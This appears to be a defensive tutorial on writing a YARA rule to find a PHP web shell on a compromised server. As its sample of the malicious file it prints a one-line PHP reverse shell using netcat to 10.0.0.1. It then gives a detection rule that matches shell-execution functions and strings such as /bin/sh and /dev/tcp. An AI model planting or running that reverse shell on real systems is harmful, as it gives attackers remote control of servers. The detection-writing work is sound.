 ### Writing your wwn Yara Rules.

<br>

##### Scenario 01

> you came to the realization that your web server is compromised and an attacker used an application running on your webserver to gain a foothold by uploading a malicious file that gave an attacker access to your webserver. Now you need to write a Yara rule to hunt that uploaded malicious file across your application.

Here is the directory structure of your application:

{% include image.html path="screenshots/yara/1.png" path-detail="screenshots/yara/1.png" alt="Sample image" %}

To hunt a malicious file, we need to know the strings contained in that file, here is an example of a malicious file that can get you a reverse shell.

```php
<?php system("nc -e /bin/sh 10.0.0.1 1234"); ?>
```

<br>

So we need to know the strings to search for, since our compromised application is a PHP application we can try to search the occurrence of strings like `system`, `exec`, `shell_exec` and `passthru` in our application folder with are used to run [system commnads](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) like `ls`, also we need to search for strings like `/bin/sh`, `/bin/sh`, `/dev/tcp`, `cmd.exe` which when combined with system commands they can get you a reverse shell.

Now that we know the strings to search for, We can write a Yara rule to find malicious files:

```
rule php_shell
{
    meta:
        description= "Detecting PHP Reverse Shells"
        author = "Karim Muya"
        date = "2022-05-18"

    strings:
        $cmd1 = "system" wide ascii
        $cmd2 = "exec" wide ascii
        $cmd3 = "shell_exec" wide ascii
        $cmd4 = "passthru" wide ascii
        $string1 = "/bin/bash" wide ascii
        $string2 = "/bin/sh" wide ascii
        $string3 = "/dev/tcp/" wide ascii
        $string4 = "cmd.exe" wide ascii

    condition:
        any of ($cmd*) and (any of ($string*))
}
```
